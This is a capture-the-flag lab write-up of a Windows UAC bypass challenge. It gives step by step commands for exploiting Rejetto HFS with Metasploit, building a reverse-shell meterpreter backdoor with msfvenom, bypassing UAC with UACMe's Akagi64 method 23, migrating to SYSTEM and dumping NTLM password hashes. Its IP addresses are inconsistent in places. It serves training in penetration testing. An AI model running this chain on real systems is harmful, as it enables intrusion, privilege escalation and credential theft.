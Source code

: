 # 🔬UAC Bypass

## Lab 1 <a href="#lab-1" id="lab-1"></a>

> 🔬 [UAC Bypass: UACMe](https://attackdefense.com/challengedetailsnoauth?cid=2208)
>
> * Target IP: `10.4.17.63`
> * Local IP: `10.10.16.2`
> * **UAC** bypass

### Enumeration

```bash
nmap 10.0.17.63
```

```bash
Starting Nmap 7.91 ( https://nmap.org ) at 2024-07-05 12:55 IST
Nmap scan report for 10.0.17.63
Host is up (0.0019s latency).
Not shown: 991 closed ports
PORT      STATE SERVICE
80/tcp    open  http
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
3389/tcp  open  ms-wbt-server
49152/tcp open  unknown
49153/tcp open  unknown
49154/tcp open  unknown
49155/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 1.58 seconds
```

* Determine the version information of the web server on port `80`

```bash
nmap -sV -p 80 10.0.17.63
```

```bash
Starting Nmap 7.91 ( https://nmap.org ) at 2024-07-05 12:57 IST
Nmap scan report for 10.0.17.63
Host is up (0.0019s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    HttpFileServer httpd 2.3
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.58 seconds
```

The version can be checked in a browser by opening the link

* `http://10.4.17.63/`

<figure><img src="../../../../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```bash
searchsploit hfs
```

<figure><img src="../../../../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Exploitation

* Run `metasploit` without showing banner
* Set the target IP as **GLOBAL RHOSTS variable**

```bash
msfconsole -q
msf6 > setg RHOSTS 10.0.17.63
```

```bash
msf6 > search hfs
msf6 > use exploit/windows/http/rejetto_hfs_exec
# direct exploit since the RHOSTS has been set globally (can check with show options)
msf6 exploit(windows/http/rejetto_hfs_exec) > exploit
```

<figure><img src="../../../../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../../.gitbook/assets/image (6) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* Use `meterpreter` commands to gain more information about the target

<figure><img src="../../../../../.gitbook/assets/image (7) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* Migrate current x86 `meterpreter` session to a x64 process

<figure><img src="../../../../../.gitbook/assets/image (8) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* Get `admin` user privileges

<figure><img src="../../../../../.gitbook/assets/image (9) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

> Privileges are very few which indicates that this user is not privileged at this point&#x20;

<figure><img src="../../../../../.gitbook/assets/image (22) (1).png" alt=""><figcaption></figcaption></figure>

> Do not have permission to elevate privileges

* Verify if `admin` user is part of the local administrators group

```bash
meterpreter > shell
C:\Windows\system32>net user
C:\Windows\system32>net localgroup administrators
```

<figure><img src="../../../../../.gitbook/assets/image (10) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

> The admin user is a member of the Administrators group. However, it do not have the high privilege as of now.&#x20;



<figure><img src="../../../../../.gitbook/assets/image (11) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

In order to run programs or tasks with elevated privileges, `UAC` bypass is necessary

### UAC Bypass & Privesc <a href="#uac-bypass-and-privesc" id="uac-bypass-and-privesc"></a>

* [UACMe Akagi](https://github.com/hfiref0x/UACME/tree/master/Source/Akagi) executable is already present on the attack machine

```bash
root@attackdefense:~# ls /root/Desktop/tools/UACME/
Akagi64.exe
```

<figure><img src="../../../../../.gitbook/assets/image (12) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* Generate a `meterpreter` payload with `msfvenom`

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.16.2 LPORT=1234 -f exe > backdoor.exe
```

<figure><img src="../../../../../.gitbook/assets/image (13) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Set up a new `msfconsole` session and set up a listener with `multi/handler`, to receive the connection one the payload is executed on the target

* set the payload used with `msfvenom` - the `windows/meterpreter/reverse_tcp` one
* set the `LHOST` IP and `LPORT` of the attack machine, based on the `msfvenom` generated payload

```bash
msfconsole -q
use multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST 10.10.4.2
set LPORT 1234
run
```

* The `reverse_tcp handler` is listening and ready to receive the connection from the malicious payload
* Head back in the `meterpreter` session already opened

```bash
cd C:\\
mkdir Temp
cd Temp
# or use
# cd C:\\Users\\admin\\AppData\\Local\\Temp

upload /root/backdoor.exe
upload /root/Desktop/tools/UACME/Akagi64.exe
```

<figure><img src="../../../../../.gitbook/assets/image (14) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../../.gitbook/assets/image (15) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* UAC would prevent running `backdoor.exe`
* Run `Akagi64.exe` executable with UACMe method 23

<figure><img src="../../../../../.gitbook/assets/image (16) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```bash
.\Akagi64.exe 23 C:\Temp\backdoor.exe
```

* Elevated `meterpreter` session should be received on the listener

<figure><img src="../../../../../.gitbook/assets/image (17) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```bash
meterpreter > getuid
meterpreter > getprivs
```

The privileges amount has increased.

<figure><img src="../../../../../.gitbook/assets/image (18) (1) (1).png" alt=""><figcaption></figcaption></figure>

* Migrate to a `NT AUTHORITY\SYSTEM` service.

```bash
meterpreter > ps
```

<figure><img src="../../../../../.gitbook/assets/image (19) (1) (1).png" alt=""><figcaption></figcaption></figure>

```bash
meterpreter > ps
meterpreter > migrate 508 
```

<figure><img src="../../../../../.gitbook/assets/image (20) (1) (1).png" alt=""><figcaption></figcaption></figure>

> **Privileges successfully elevated** by bypassing UAC on a system running Windows 2012 R2.

<figure><img src="../../../../../.gitbook/assets/image (21) (1) (1).png" alt=""><figcaption></figcaption></figure>

```bash
hashdump

admin:1012:aad3b435b51404eeaad3b435b51404ee:4d6583ed4cef81c2f2ac3c88fc5f3da6:::
Administrator:500:aad3b435b51404eeaad3b435b51404ee:659c8124523a634e0ba68e64bb1d822f:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
```

{% hint style="success" %}
Flag: `4d6583ed4cef81c2f2ac3c88fc5f3da6`
{% endhint %}

